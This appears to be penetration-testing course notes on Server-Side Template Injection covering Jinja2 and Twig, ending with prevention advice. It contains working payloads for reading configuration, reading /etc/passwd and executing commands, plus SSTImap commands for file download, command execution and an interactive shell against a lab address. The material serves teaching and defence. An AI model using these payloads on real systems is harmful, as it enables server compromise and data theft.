Server-Side Template Injection (SSTI)
Web applications can utilize templating engines and server-side templates to generate responses such as HTML content dynamically. This generation is often based on user input, enabling the web application to respond to user input dynamically. When an attacker can inject template code, a SSTI vulnerability can occur. STTI can lead to various security risks, including data leakage and even full server compromise via remote code execution.
Templating
note
An everyday use case for template engines is a website with shared headers and footers for all pages. A template can dynamically add content but keep the header and footer the same. This avoids duplicates instances of header and footer in different places, reducing complexity and thus enabling better code maintainability. Popular examples of template engines are Jinja and Twig.
Template engines typically require two inputs: a template and a set of values to be inserted into the template. The template can typically be provided as a string or a file and contains pre-defined places where the template engine inserts the dynamically generated values. The values are provided as key-value pairs so the template engine can place the provided value at the location in the template marked with the corresponding key. Generating a string from the input template and input values is called rendering.
Jinja template string example:
Hello {{ name }}!
It contains a single variable called name, which is replaced with a dynamic value during rendering. When the template is rendered, the template engine must be provided with a value for the variable name. For instance, if you provide the variable name="vautia" to the rendering function, the template engine will generate the following string:
Hello vautia!
A more complex example:
{% for name in names %}
Hello {{ name }}!
{% endfor %}
The template contains a for-loop that loops over all elements in a variable names. As such, you need to provide the rendering function with an object in the names variable that it can iterate over. For instance, if you pass the function with a list such as names=["vautia", "21y4d", "Pendant"], the template engine will generate the following string:
Hello vautia!
Hello 21y4d!
Hello Pedant!
Identifying
Confirming SSTI
The most effective way is to inject special characters with semantic meaning in template engines and observe the web app's behavior. As such, the following test string is commonly used to provoke an error message in a web app vulnerable to SSTI, as it consists of all special characters that have a particular semantic purpose in popular template engines:
${{<%[%'"}}%\.
Since the above test string should almost certainly violate the template syntax, it should result in an error if the web app is vulnerable to SSTI. This behavior is similar to how injecting a single quote into a web app vulnerable to SQLi can break an SQL query's syntax and thus result in an SQL error.
Legit string:

Using the test string:

While this does not confirm that the web application is vulnerable to SSTI, it should increase your suspicion that the parameter might be vulnerable.
Identifying the Template Engine
To enable the successful exploitation of an SSTI vuln, you first need to determine the template engine used by the web application. You can utilize slight variations in the behavior of different template engines to achieve this. For instance, consider the following commonly used overview containing slight differences in popular template engines:
flowchart LR
A["${7*7}"]
B["a{\*comment\*}b"]
C["${´´z´´.join(´´ab´´)}"]
D["{{7*7}}"]
E["{{7*'7'}}"]
F["Not vulnerable"]
G["Unknown"]
H["Unknown"]
I["Smarty"]
J["Mako"]
K["Jinja2"]
L["Twig"]
A --> B
B --> I
B --> C
C --> J
C --> G
linkStyle 0 stroke: green;
linkStyle 1 stroke: green;
linkStyle 2 stroke: red;
linkStyle 3 stroke: green;
linkStyle 4 stroke: red;
A --> D
D --> E
D --> F
E --> K
E --> L
E --> H
linkStyle 5 stroke: red;
linkStyle 6 stroke: green;
linkStyle 7 stroke: red;
linkStyle 8 stroke: green;
linkStyle 9 stroke: green;
linkStyle 10 stroke: red;
Example:

Since the payload was not executed, you follow the red arrow and now inject the payload {{7*7}}.

This time, the payload was executed by the template engine. Therefore, you follow the green arrow and inject the payload {{7*'7'}}.
tip
In Jinja the result will be 7777777.
In Twig the result will be 49.
Exploiting Jinja2
Information Disclosure
You can exploit the SSTI vulnerability to obtain internal information about the web application, including configuration details and the web application's source code. For instance, you can obtain the web application's configuration using the following payload:
{{ config.items() }}

Since this payload dumps the entire web application configuration, including any used secret keys, you can prepare further attacks using the obtained information. You can also execute Python code to obtain information about the web application's source code. You can use the following payload to dump all available built-in functions:
{{ self.__init__.__globals__.__builtins__ }}

LFI
You can use Python's built-in function open to include a local file. However, you cannot call the function directly; you need to call it from the __builtins__ dictionary you dumped earlier.
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}

RCE
To achieve remote code execution in Python, you can use functions provided by the os library, such as system or popen. However, if the web application has not already imported this library, you must first import it by calling the built-in function import.
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}

Exploiting Twig
Information Disclosure
In Twig, you can use the _self keyword to obtain a little information about the current template:
{{ _self }}

However, the amount of information is limited compared to Jinja.
LFI
Reading local files is not possible using internal functions directly provided by Twig. However, the PHP web framework Symfony defines additional Twig filters. One of these filters is file_excerpt and can be used to read local files:
{{ "/etc/passwd"|file_excerpt(1,-1) }}

RCE
To achieve remote code execution, you can use a PHP built-in function such as system. You can pass an argument to this function by using Twig's filter function.
{{ ['id'] | filter('system') }}

SSTI Tools
The most popular tool for identifying and exploiting SSTI vulnerabilities is tplmap. However, tplmap is not maintained anymore and runs on the deprecated Python2 version. Therefore, you will use the more modern SSTImap to aid the SSTI exploitation process.
d41y@htb[/htb]$ git clone https://github.com/vladko312/SSTImap
d41y@htb[/htb]$ cd SSTImap
d41y@htb[/htb]$ pip3 install -r requirements.txt
d41y@htb[/htb]$ python3 sstimap.py
╔══════╦══════╦═══════╗ ▀█▀
║ ╔════╣ ╔════╩══╗ ╔══╝═╗▀╔═
║ ╚════╣ ╚════╗ ║ ║ ║{║ _ __ ___ __ _ _ __
╚════╗ ╠════╗ ║ ║ ║ ║*║ | '_ ` _ \ / _` | '_ \
╔════╝ ╠════╝ ║ ║ ║ ║}║ | | | | | | (_| | |_) |
╚══════╩══════╝ ╚═╝ ╚╦╝ |_| |_| |_|\__,_| .__/
│ | |
|_|
[*] Version: 1.2.0
[*] Author: @vladko312
[*] Based on Tplmap
[!] LEGAL DISCLAIMER: Usage of SSTImap for attacking targets without prior mutual consent is illegal.
It is the end user's responsibility to obey all applicable local, state, and federal laws.
Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] Loaded plugins by categories: languages: 5; engines: 17; legacy_engines: 2
[*] Loaded request body types: 4
[-] SSTImap requires target URL (-u, --url), URLs/forms file (--load-urls / --load-forms) or interactive mode (-i, --interactive)
d41y@htb[/htb]$ python3 sstimap.py -u http://172.17.0.2/index.php?name=test
<SNIP>
[+] SSTImap identified the following injection point:
Query parameter: name
Engine: Twig
Injection: *
Context: text
OS: Linux
Technique: render
Capabilities:
Shell command execution: ok
Bind and reverse shell: ok
File write: ok
File read: ok
Code evaluation: ok, php code
| Command | Description | Full Example |
|---|---|---|
-D | download a remote file to your local machine | python3 sstimap.py -u http://172.17.0.2/index.php?name=test -D '/etc/passwd' './passwd' |
-S | execute a system command | python3 sstimap.py -u http://172.17.0.2/index.php?name=test -S id |
--os-shell | obtain an interactive shell | python3 sstimap.py -u http://172.17.0.2/index.php?name=test --os-shell |
Prevention
To prevent SSTI vulnerabilities, you must ensure that user input is never fed into the call to the template engine's rendering function in the template parameter. This can be achieved by carefully going through the different code paths and ensuring that user input is never added to a template before a call to the rendering function.
Suppose a web application intends to have users modify existing templates or upload new ones for business reasons. In that case, it is crucial to implement proper hardening measures to prevent the takeover of the web server. This process can include hardening the template engine by removing potentially dangerous functions that can be used to achieve remote code execution from the execution environment. Removing dangerous functions prevents attackers from using these functions in their payloads. However, this technique is prone to bypasses. A better approach would be to separate the execution environment in which the template engine runs entirely from the web server, for instance, by setting up a separate execution environment such as a Docker container.